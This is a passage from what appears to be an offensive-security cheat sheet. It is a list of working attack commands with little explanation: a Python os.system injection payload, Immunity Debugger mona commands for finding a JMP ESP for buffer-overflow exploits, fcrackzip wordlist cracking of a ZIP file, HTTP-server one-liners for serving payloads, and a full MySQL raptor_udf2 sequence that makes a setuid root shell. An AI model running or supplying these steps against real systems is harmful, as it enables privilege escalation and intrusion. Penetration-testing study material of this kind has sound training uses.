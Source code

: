 ```python
__import__('os').system('id')
```

## Local Enumeration & Privilege Escalation

### Binary Exploitation with ImmunityDebugger

#### Get Loaded Modules

```text
# We're interested in modules without protection, Read & Execute permissions
!mona modules
```

#### Finding JMP ESP Address

```text
!mona find -s "\xFF\xE4" -m moduleName
```

### Cracking a ZIP Password

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

### Setting up Simple HTTP server

```bash
# Linux
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:80
```

### MySQL User Defined Fuction Privilge Escalation

Requires [raptor\_udf2.c](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/raptor_udf2.c) and [sid-shell.c](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c) or [full tarball](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/raptor/raptor.tar)

```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```text
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
```

